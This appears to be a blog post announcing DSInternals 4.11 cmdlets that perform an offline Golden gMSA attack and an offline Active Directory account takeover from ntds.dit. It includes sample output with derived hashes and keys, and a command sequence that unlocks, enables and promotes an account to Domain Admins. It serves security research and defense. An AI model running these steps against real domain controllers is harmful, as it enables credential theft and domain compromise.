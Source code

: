 ```yaml
---
ref: dsinternals-v411
title: New Offline Capabilities in DSInternals 4.11
date: '2023-10-01T00:00:00+00:00'
layout: post
lang: en
image: /assets/images/addb-serviceaccount.png
permalink: /en/dsinternals-v4.11/
---
```


## Introduction

The recently released [DSInternals PowerShell Module](https://github.com/MichaelGrafnetter/DSInternals) contains two new cmdlets for offline **ntds.dit** file access, [Get-ADDBServiceAccount](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADDBServiceAccount.md#get-addbserviceaccount) and [Unlock-ADDBAccount](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Unlock-ADDBAccount.md#unlock-addbaccount). This article will guide you through the newly added capabilities.

## Golden gMSA Attack with Time Shifting

The [Get-ADDBServiceAccount](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADDBServiceAccount.md#get-addbserviceaccount) cmdlet reads all [Group Managed Service Accounts (gMSAs)](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview) from an Active Directory (AD) database backup (the **ntds.dit** file) first, then it combines them with [KDS Root Keys](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/create-the-key-distribution-services-kds-root-key) and finally calculates the managed passwords and their hashes. In other words, this cmdlet performs a fully offline [Golden gMSA Attack](https://www.semperis.com/blog/golden-gmsa-attack/), against which most companies do not [protect themselves](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/recover-from-golden-gmsa-attack).

Usage of this cmdlet is pretty straightforward:

```powershell
Get-ADDBServiceAccount -DatabasePath '.\ADBackup\ntds.dit'
```

Here is a sample output of this cmdlet:

```txt
DistinguishedName: CN=svc_adfs,CN=Managed Service Accounts,DC=contoso,DC=com
Sid: S-1-5-21-2468531440-3719951020-3687476655-1109
Guid: 53c845f7-d9cd-471b-a364-e733641dcc86
SamAccountName: svc_adfs$
Description: ADFS Service Account
Enabled: True
Deleted: False
UserAccountControl: WorkstationAccount
SupportedEncryptionTypes: RC4_HMAC, AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
ServicePrincipalName: {http/login.contoso.com, host/login.contoso.com}
WhenCreated: 9/9/2023 5:02:05 PM
PasswordLastSet: 9/9/2023 5:02:06 PM
ManagedPasswordInterval: 30
ManagedPasswordId: RootKey=7dc95c96-fa85-183a-dff5-f70696bf0b11, Cycle=9/9/2023 10:00:00 AM (L0=361, L1=26, L2=24)
ManagedPasswordPreviousId:
KDS Derived Secrets
  NTHash: 0b5fbfb646dd7bce4f160ad69edb86ba
  Kerberos Keys
    AES256_CTS_HMAC_SHA1_96
      Key: 5dcc418cd0a30453b267e6e5b158be4b4d80d23fd72a6ae4d5bd07f023517117
      Iterations: 4096
    AES128_CTS_HMAC_SHA1_96
      Key: 8e1e66438a15d764ae2242eefd15e09a
      Iterations: 4096
```

Note that the `KDS Derived Secrets` section was calculated by the cmdlet.

As a result, the Golden gMSA attack provides a stepping stone to some other nasty online attacks against the NTLM and Kerberos authentication protocols, including Pass-the-Hash, Pass-the-Key, Overpass-the-Hash, and Silver Ticket attacks.

## Offline User Account Unlock

The addition of the [Unlock-ADDBAccount](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Unlock-ADDBAccount.md#unlock-addbaccount) cmdlet completes the holistic capability of the DSInternals PowerShell module to perform offline user account takeovers. With access to a hard drive of a Domain Controller (DC), it is now possible to pick any pre-existing user account, even a disabled one, and to simply [reset its password](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Set-ADDBAccountPassword.md#set-addbaccountpassword), [enable it](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Enable-ADDBAccount.md#enable-addbaccount), [unlock it](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Unlock-ADDBAccount.md#unlock-addbaccount), and [add it to the Domain Admins group](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Set-ADDBPrimaryGroup.md#set-addbprimarygroup). Thanks to the common `-SkipMetaUpdate` parameter, it is even possible to either keep the changes local to the target DC or to replicate them to all the other DCs.

Here is an example of an end-to-end approach:

```powershell
Unlock-ADDBAccount -SamAccountName john -DatabasePath 'D:\Windows\NTDS\ntds.dit'
Enable-ADDBAccount -SamAccountName john -DatabasePath 'D:\Windows\NTDS\ntds.dit'
Set-ADDBPrimaryGroup -SamAccountName john -PrimaryGroupId 512 -DatabasePath 'D:\Windows\NTDS\ntds.dit'

$pass = Read-Host -AsSecureString -Prompt 'Provide a new password for user john'
$key = Get-BootKey -OfflineHiveFilePath 'D:\Windows\System32\config\SYSTEM'
Set-ADDBAccountPassword -SamAccountName john `
                        -NewPassword $pass `
                        -DatabasePath 'D:\Windows\NTDS\ntds.dit' `
                        -BootKey $key
```

## Disclaimer

Remember that features exposed through these tools are not supported by Microsoft. Improper use might cause irreversible damage to domain controllers or negatively impact domain security.
